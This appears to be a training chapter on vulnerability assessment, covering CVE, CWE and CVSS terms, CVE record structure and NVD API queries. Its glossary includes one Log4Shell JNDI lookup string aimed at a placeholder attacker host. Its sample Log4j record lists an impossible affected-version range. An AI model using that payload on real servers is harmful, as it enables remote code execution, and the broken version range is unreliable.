










This is Chapter 1 of the Vulnerability Assessment series. The previous notebook ended with service enumeration — you can now point Nmap at a network, come back with a list of hosts, open ports, service names and version strings, and know roughly what is running where. This chapter is the bridge between *"port 445 is open and it's Samba 4.6.2"* and *"this host has a remotely exploitable flaw that is being used by ransomware operators right now, and it is the single thing on this network you should fix first."*

That bridge is built out of three vocabularies — **CVE** (which flaw), **CWE** (what kind of mistake caused it), and **CVSS** (how bad it is intrinsically) — plus a fourth layer that most people skip and that separates a useful report from a useless one: **exploitation evidence** (EPSS, the CISA KEV catalog, SSVC). Every scanner you will ever run — Nessus, OpenVAS, Qualys, Nuclei, Trivy, `npm audit` — is ultimately a machine for producing rows keyed on these identifiers. If you do not understand what the identifiers mean, you cannot tell a scanner's truth from its noise, and you will hand a client a 40,000-row spreadsheet that gets deleted unread.

By the end of this chapter you will be able to read a CVE record in its raw JSON form, compute a CVSS v3.1 base score by hand and check the scanner's arithmetic, explain to a sceptical sysadmin why their "Critical" finding is a false positive caused by distro backporting, and build a command-line pipeline that takes a list of CVEs and returns them ranked by *actual* risk rather than by base score.

---

## Part 1: Vulnerability Assessment Is Not Vulnerability Scanning

Three activities get conflated constantly, and the distinction matters commercially and legally as much as it does technically.

**Vulnerability scanning** is the automated act of probing systems and comparing what comes back against a database of known flaws. It is a tool operation. A scan produces *findings*.

**Vulnerability assessment** is the human process wrapped around the scan: defining scope, choosing credentialed or uncredentialed scanning, validating findings, removing false positives, contextualising each finding against the asset's exposure and business value, prioritising, and reporting. A vulnerability assessment produces a *ranked, validated, actionable list*. It generally does not include exploitation.

**Penetration testing** goes further: it attempts to actually exploit the flaws, chain them, and demonstrate impact. A pentest produces *proof*.



The commercial consequence: a client who buys a "vulnerability assessment" and receives a raw Nessus PDF has been short-changed, and a client who buys a "penetration test" and receives the same PDF has been defrauded. The line between them is exactly the validation-and-context work this notebook teaches.

**Where this sits in an engagement.** In the methodology from the Penetration Testing notebook, vulnerability assessment occupies the phase after scanning and enumeration, before exploitation. It is the phase where you decide *what to attack*. On a red-team engagement you may spend twenty minutes here and pick one path. On a compliance-driven assessment you may spend the entire engagement here and never fire an exploit. Same knowledge, different depth.

### The Three Questions Every Finding Must Answer

Before you write a finding into a report, it must answer:

1. **Is it real?** Does the flaw actually exist on this host, or did the scanner infer it from a version banner that lies?
2. **Is it reachable?** Can an attacker in the assumed threat model actually get to the vulnerable code path — network position, authentication, configuration, non-default settings?
3. **Does it matter here?** What does an attacker gain on *this* asset, given what the asset holds and what it can reach?

CVE answers "which flaw". CWE answers "what class of mistake". CVSS gives a first pass at question 3 in the abstract. Questions 1 and 2, and the concrete version of question 3, are yours.

---

## Part 2: The Core Vocabulary, Used Precisely

These words are used loosely in conversation and precisely in reports. Getting them wrong in a client deliverable is the fastest way to look junior.

| Term | Precise meaning | Concrete example |
|---|---|---|
| **Asset** | Anything with value to the organisation that can be attacked | The domain controller `DC01`, the customer database, the CI signing key |
| **Vulnerability** | A weakness in a system that can be leveraged to violate a security policy | Apache Log4j 2.14.1 evaluating JNDI lookups in logged strings |
| **Weakness (CWE)** | The *class* of programming or design error underlying the vulnerability | CWE-917, improper neutralisation of expression-language syntax |
| **Exploit** | Code or a technique that leverages a vulnerability to produce an effect | A `${jndi:ldap://attacker/x}` string in a `User-Agent` header |
| **Payload** | What the exploit delivers once it has control | A reverse shell, a `whoami` beacon, a coin miner |
| **Threat** | An actor or event with the capability and intent to cause harm | A ransomware affiliate scanning the internet for exposed RDP |
| **Threat actor / adversary** | The specific human or group behind a threat | An initial-access broker, an insider, a nation-state crew |
| **Attack surface** | The sum of all points where an attacker can interact with a system | Every listening port, every HTTP route, every file parser, every dependency |
| **Attack vector** | The specific path used | Unauthenticated HTTP POST to `/api/upload` |
| **Risk** | The expected loss from a threat exploiting a vulnerability against an asset | "60% chance this quarter of a ransomware event costing 3 weeks of downtime" |
| **Exposure** | A configuration or state that is not itself a flaw but enables one | An SMB share reachable from a guest VLAN; verbose error pages |
| **Zero-day** | A vulnerability with no vendor patch available at the time of exploitation | A flaw being used in the wild before the vendor has shipped a fix |
| **N-day / one-day** | A publicly known, patched flaw still unpatched on the target | Most of what you will actually find on a real network |
| **Compensating control** | A measure that reduces risk without fixing the flaw | Blocking the port at the firewall until a patch window exists |
| **False positive** | Scanner reports a flaw that is not present | Version-banner match against a backported package |
| **False negative** | Scanner misses a flaw that is present | Unauthenticated scan of a host that only exposes SSH |

The relationship that matters most:

> **Risk = f(Threat, Vulnerability, Impact on Asset)**

A vulnerability with no credible threat and no valuable asset behind it is a *finding*, not a risk. A CVSS 9.8 on an air-gapped kiosk that prints cafeteria menus is a lower business risk than a CVSS 6.5 on the internet-facing SSO gateway. Every prioritization scheme in Part 7 exists because CVSS deliberately does not know about your threats or your assets.

**Red-team framing:** you care about *reachability and chainability* far more than severity. Three "Medium" findings — an unauthenticated info leak, a weak password policy, and an over-permissive service account — chain into domain admin more reliably than one unreachable "Critical".

**Blue-team framing:** you care about *coverage and time-to-remediate*. A vulnerability you do not know about on an asset you do not have in inventory is worse than a Critical you have triaged and consciously accepted with a compensating control.

---

## Part 3: CVE — The Naming System

### What a CVE Actually Is (And Is Not)

**CVE** stands for *Common Vulnerabilities and Exposures*. The single most important thing to understand: **a CVE is an identifier, not a database entry, not a severity, and not a vulnerability report.** Its entire job is to give one specific flaw one stable, globally unique name so that a Red Hat advisory, a Tenable plugin, a Nuclei template, an exploit on Exploit-DB, a vendor patch note and a threat-intel report can all unambiguously refer to the same thing.

Before CVE existed, every scanner vendor had its own numbering. Correlating "ISS X-Force ID 1234" with "CyberCop check 5678" was manual, error-prone work. CVE solved a *bibliographic* problem, not a technical one — and it is worth remembering that, because most complaints about CVE ("it doesn't tell me the severity", "the description is useless") are complaints that it is not something it never tried to be.

The CVE Program is run by **MITRE** as Secretariat and Primary CNA, sponsored by **CISA** (the U.S. Cybersecurity and Infrastructure Security Agency). Both MITRE and CISA act as Top-Level Roots.

### The Identifier Format

```
CVE-YYYY-NNNN
 |    |    |
 |    |    +-- Sequence number: 4 or more digits, arbitrary length
 |    +------- Year the ID was RESERVED (not necessarily published or discovered)
 +------------ Fixed prefix
```

Rules people get wrong:

- **The year is the reservation year, not the disclosure year.** A CNA can reserve a block of IDs in one year and publish a record from that block later. It is entirely normal to see a `CVE-2023-xxxxx` published well after the calendar year 2023 ended.
- **The sequence number is not fixed at four digits.** The original format capped at `CVE-YYYY-NNNN` (9,999 per year) and was changed to allow arbitrary length once that ceiling was hit. Any regex you write must handle five, six or more digits. The canonical pattern:

```regex
CVE-\d{4}-\d{4,}
```

Writing `CVE-\d{4}-\d{4}` is a classic bug that silently drops every ID above 9999 in a year — which is now the majority of them.

- **Sequence numbers carry no meaning.** `CVE-2021-44228` is not "worse" or "later" than `CVE-2021-4034`. Blocks are handed to CNAs in bulk.
- **There is no ordering guarantee.** Two IDs from the same year tell you nothing about relative discovery or publication order.

### CNAs — Who Is Allowed to Mint a CVE

A **CNA (CVE Numbering Authority)** is an organisation authorised to assign CVE IDs within a defined scope. The federated model is the only reason the program scales.



Key roles:

| Role | Responsibility |
|---|---|
| **Top-Level Root** | Governs the program in its branch; MITRE and CISA occupy this level |
| **Root** | Manages a set of CNAs, trains them, handles disputes within its domain |
| **CNA** | Assigns and publishes CVE IDs for vulnerabilities within its declared scope |
| **CNA-LR (of Last Resort)** | Assigns IDs for vulnerabilities that fall outside every existing CNA's scope |

**Scope** is the crux. Microsoft's CNA scope is Microsoft products. Red Hat's covers Red Hat products plus a set of open-source components it stewards. If you find a flaw in a small open-source project with no CNA, you request an ID from the appropriate root or the CNA of Last Resort.

**Practical consequence for a researcher or bug-bounty hunter:** if you report a flaw in a product whose vendor is a CNA, the vendor controls the CVE — its description, its affected-version list, and often the CVSS score attached to it. Vendors have an obvious incentive to describe flaws minimally and score them conservatively. If you disagree with a vendor's score, you are not stuck: you can publish your own analysis, and consumers can and do re-score. This is why you will sometimes see a CVE with two CVSS vectors in the NVD — one from the CNA, one from NVD's own analysts — that disagree substantially.

### The CVE Record Lifecycle



| State | What it means | What you see if you look it up |
|---|---|---|
| **Reserved** | ID allocated, details embargoed or not yet supplied | `** RESERVED **` placeholder text, no description |
| **Published** | Full record with description, references, affected products | Normal record |
| **Rejected** | Withdrawn — duplicate, not a security issue, or assigned in error | `** REJECT **` marker; the ID is never reused |
| **Disputed** | Someone (usually the vendor) contests that this is a vulnerability | `** DISPUTED **` tag inside the description |

Two operational rules follow. First: **a REJECTED CVE ID is never recycled.** If your tooling caches a reserved ID and later sees it rejected, delete the finding rather than assuming a data error. Second: **"Reserved" in a scanner's output is a red flag for a low-quality data feed** — it means the tool matched on an identifier for which no technical detail is published, which it cannot possibly have validated.

### Reading a Raw CVE Record

Modern CVE records are published in the **CVE JSON 5.x record format**. The structure separates data supplied by the CNA (`containers.cna`) from data added by others (`containers.adp` — Authorized Data Publishers, such as CISA's vulnrichment programme).

```json
{
  "dataType": "CVE_RECORD",
  "dataVersion": "5.1",
  "cveMetadata": {
    "cveId": "CVE-2021-44228",
    "assignerOrgId": "f0158376-9dc2-43b6-827c-5f631a4d8d09",
    "assignerShortName": "apache",
    "state": "PUBLISHED"
  },
  "containers": {
    "cna": {
      "affected": [
        {
          "vendor": "Apache Software Foundation",
          "product": "Apache Log4j2",
          "versions": [
            { "version": "2.0-beta9", "lessThan": "2.3.1",  "status": "affected", "versionType": "maven" },
            { "version": "2.13.0",    "lessThan": "2.12.2", "status": "affected", "versionType": "maven" }
          ]
        }
      ],
      "descriptions": [
        {
          "lang": "en",
          "value": "JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints..."
        }
      ],
      "problemTypes": [
        { "descriptions": [ { "lang": "en", "description": "CWE-917", "cweId": "CWE-917", "type": "CWE" } ] }
      ],
      "metrics": [
        {
          "cvssV3_1": {
            "version": "3.1",
            "vectorString": "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H",
            "baseScore": 10.0,
            "baseSeverity": "CRITICAL"
          }
        }
      ],
      "references": [
        { "url": "https://logging.apache.org/log4j/2.x/security.html", "tags": ["vendor-advisory"] }
      ]
    }
  }
}
```

Fields worth internalising:

- **`assignerShortName`** — which CNA owns this record. If it is the vendor, expect a conservative description.
- **`affected[].versions`** — the machine-readable version ranges. `lessThan` is exclusive; `lessThanOrEqual` also exists. This is the field that determines whether *your* installed version matches, and it is frequently incomplete for older records.
- **`problemTypes`** — the CWE mapping (Part 5).
- **`metrics`** — the CNA's CVSS assessment. Note this is an *array*: multiple metric objects at different CVSS versions can coexist, and the NVD may add its own separately.
- **`state`** — `PUBLISHED` / `REJECTED`.

**Where to fetch records:** the CVE Program publishes every record as JSON in a public Git repository (`cvelistV5`), which is the authoritative source and updates continuously. Cloning it gives you the entire corpus offline — extremely useful for an air-gapped assessment or for building your own correlation tooling without rate limits.

```bash
# Full offline corpus of every CVE record (large; shallow clone keeps it manageable)
git clone --depth 1 https://github.com/CVEProject/cvelistV5.git

# Records are laid out by year and by ID block:
#   cves/2021/44xxx/CVE-2021-44228.json
jq -r '.containers.cna.descriptions[0].value' \
   cvelistV5/cves/2021/44xxx/CVE-2021-44228.json
```

`--depth 1` fetches only the latest commit rather than the full history — the history of this repository is enormous, and you almost never need it.

---
## Part 4: The NVD and the Enrichment Pipeline

A CVE record from a CNA is often thin: a description, a couple of references, maybe a version range. The **NVD (National Vulnerability Database)**, run by NIST, consumes the CVE feed and *enriches* it with:

- A **CVSS base score and vector** produced by NVD analysts (in addition to any the CNA supplied).
- A **CWE mapping** drawn from a simplified mapping view.
- **CPE applicability statements** — machine-readable "which products and versions are affected" expressions.
- Additional reference tagging (Exploit, Patch, Vendor Advisory, Third Party Advisory, Mitigation).

This distinction — **CVE = the name, NVD = one enriched view of it** — is the single most commonly muddled point in this whole area. When someone says "the CVE says it's a 9.8", they almost always mean "the NVD assigned a CVSS base score of 9.8".



### The Enrichment Gap — Why You Cannot Rely on NVD Alone

Enrichment is human analyst work and it is not instantaneous. Records sit in a `vulnStatus` of **`Awaiting Analysis`** or **`Received`** for a period before becoming **`Analyzed`**. During backlog periods, large numbers of records have been published with a description and references but **no NVD CVSS score, no CWE and no CPE**.

The operational impact is severe and worth stating plainly:

- A vulnerability-management program that filters on "NVD base score ≥ 7.0" will **silently ignore** every unenriched record — including brand-new, actively exploited ones. Newest is exactly when a flaw is most dangerous and least likely to be enriched.
- Tooling that matches on CPE will not match unenriched records at all, because CPE applicability is added during enrichment.

Mitigations you should build in from the start:

1. **Prefer the CNA's own CVSS vector when NVD's is absent.** It is in `containers.cna.metrics` in the CVE record itself.
2. **Consume CISA's ADP enrichment (`vulnrichment`)**, which adds CVSS, CWE and SSVC decision points to records the NVD has not yet reached.
3. **Consume vendor advisories directly** for anything in your critical stack. Red Hat, Microsoft, Cisco, Oracle and the major Linux distros all publish machine-readable advisory data on their own schedules, which are usually faster than the NVD for their own products.
4. **Never treat "no score" as "no risk".** Route unscored records to human triage, not to the bottom of the queue.

`vulnStatus` values you will encounter in NVD API output:

| `vulnStatus` | Meaning |
|---|---|
| `Received` | Ingested from CVE, nothing done yet |
| `Awaiting Analysis` | Queued for analyst enrichment |
| `Undergoing Analysis` | Analyst currently working the record |
| `Analyzed` | Fully enriched — CVSS, CWE, CPE present |
| `Modified` | Was analysed, then changed upstream; enrichment may lag the change |
| `Deferred` | NVD has chosen not to enrich (typically very old records) |
| `Rejected` | Underlying CVE was rejected |

### Querying the NVD API

The NVD exposes a REST API. The CVE endpoint is version 2.0:

```
https://services.nvd.nist.gov/rest/json/cves/2.0
```

Fetch a single record:

```bash
curl -s 'https://services.nvd.nist.gov/rest/json/cves/2.0?cveId=CVE-2021-44228' \
  | jq '.vulnerabilities[0].cve
        | {id, vulnStatus,
           cvss:  .metrics.cvssMetricV31[0].cvssData.vectorString,
           score: .metrics.cvssMetricV31[0].cvssData.baseScore,
           cwe:   .weaknesses[0].description[0].value}'
```

Flag-by-flag:

- `-s` — silent; suppress the progress meter so the output is clean JSON suitable for piping.
- `jq '...'` — the filter. `.vulnerabilities[0].cve` selects the first (only) result's CVE object; the `{...}` constructs a new object with just the fields we want.

Realistic output:

```json
{
  "id": "CVE-2021-44228",
  "vulnStatus": "Analyzed",
  "cvss": "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H",
  "score": 10,
  "cwe": "CWE-917"
}
```

Other query parameters that do real work:

| Parameter | Purpose | Example |
|---|---|---|
| `cveId` | Fetch one specific record | `cveId=CVE-2014-0160` |
| `keywordSearch` | Free-text search of descriptions | `keywordSearch=vsftpd` |
| `keywordExactMatch` | Require the whole phrase, not any word | used alongside `keywordSearch` |
| `cpeName` | All CVEs matching a CPE URI | `cpeName=cpe:2.3:a:apache:http_server:2.4.49:*:*:*:*:*:*:*` |
| `cvssV3Severity` | Filter by severity band | `cvssV3Severity=CRITICAL` |
| `cvssV3Metrics` | Filter by (partial) vector string | `cvssV3Metrics=AV:N/AC:L/PR:N` |
| `cweId` | All CVEs mapped to a weakness class | `cweId=CWE-89` |
| `hasKev` | Only records in the CISA KEV catalog | `hasKev` |
| `lastModStartDate` / `lastModEndDate` | Incremental sync window (max 120-day span) | ISO-8601 datetimes |
| `resultsPerPage` / `startIndex` | Pagination (2,000 results per page maximum) | `resultsPerPage=2000&startIndex=4000` |

Two hard practicalities:

**Rate limits.** Anonymous requests are throttled aggressively — on the order of a handful of requests per rolling 30-second window. Requesting a free API key and sending it in the `apiKey` header raises the limit substantially. Any script that walks a list of CVEs must sleep between calls or it will start receiving HTTP 403/503 and you will silently lose data:

```bash
export NVD_API_KEY='your-key-here'
curl -s -H "apiKey: ${NVD_API_KEY}" \
  'https://services.nvd.nist.gov/rest/json/cves/2.0?cveId=CVE-2021-44228'
```

**Bulk over per-CVE.** If you need more than a few dozen records, do not loop the API. Pull the whole dataset once (paginate with `resultsPerPage=2000` and `startIndex`), store it locally in SQLite or JSONL, and query offline. This is faster, is not rate-limited after the initial sync, and works on an engagement where the assessment host has no internet access.

```bash
# Incremental sync: everything modified in a window, paginated
KEY="$NVD_API_KEY"
START=0
while : ; do
  curl -s -H "apiKey: $KEY" \
    "https://services.nvd.nist.gov/rest/json/cves/2.0?resultsPerPage=2000&startIndex=${START}&lastModStartDate=2026-01-01T00:00:00.000Z&lastModEndDate=2026-03-01T00:00:00.000Z" \
    -o "nvd_${START}.json"
  TOTAL=$(jq -r '.totalResults' "nvd_${START}.json")
  START=$((START + 2000))
  [ "$START" -ge "$TOTAL" ] && break
  sleep 6          # stay well inside the rate limit
done
```

